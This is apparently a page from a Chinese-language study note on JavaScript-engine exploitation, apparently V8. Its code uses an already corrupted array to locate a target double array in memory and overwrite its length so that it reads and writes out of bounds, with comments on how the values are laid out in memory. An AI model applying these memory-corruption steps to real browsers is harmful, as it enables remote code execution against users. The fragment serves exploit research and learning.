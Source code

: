 ```js
console.log("--------------------------------------------");

  

var oobDblArr = [0x41, 0x42, 0x51, 0x52, 1.5];
//第0格：0x41 → 65.0 → 0x4050400000000000 → 40 50 40 00 00 00 00 00
//第1格：0x42 → 66.0 → 0x4050800000000000 → 40 50 80 00 00 00 00 00
//第2格：0x51 → 81.0 → 0x4054400000000000 → 40 54 40 00 00 00 00 00
//第3格：0x52 → 82.0 → 0x4054800000000000 → 40 54 80 00 00 00 00 00
//第4格：1.5 → 1.5 →   0x3ff8000000000000 → 3F F8 00 00 00 00 00 00
%DebugPrint(oobDblArr);

var oobDblArr2 = [0x41, 0x42, 1.5];
var oobObjArr = [view, 0x424242];
oobObjArr[0] = 0x414141;


//oobDblArr 000003AC000421B9: [JSArray] elements: 0x03ac000421d1 <FixedDoubleArray[5]> [PACKED_DOUBLE_ELEMENTS]
var arrAddr = 0x42191;
var dblIndex = searchDblArrIndex(arrAddr, corruptedArr, arrAddr + 0x1000);
if (dblIndex == null) {
    console.log("cannot find dblIndex");
    exit();
}

  
console.log("dblIndex=", dblIndex, " 0x42191+",cnt);
console.log("oobDblAddr0: " + indexToAddr(dblIndex).toString(16));
corruptedArr[dblIndex] = 1;


var dblAddr = indexToAddr(dblIndex);
dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x1000);
console.log("oobDblAddr1: " + indexToAddr(dblIndex).toString(16));
console.log("--------------------------------------------");

var oobDblIndex = dblIndex;
corruptedArr[dblIndex] = 0x3FF80000 / 2;
%DebugPrint(oobDblArr);
corruptedArr[dblIndex - 6] = 0x100;
```

参考之后继续搜索
![](../images/Pasted%20image%2020250526162633.png)
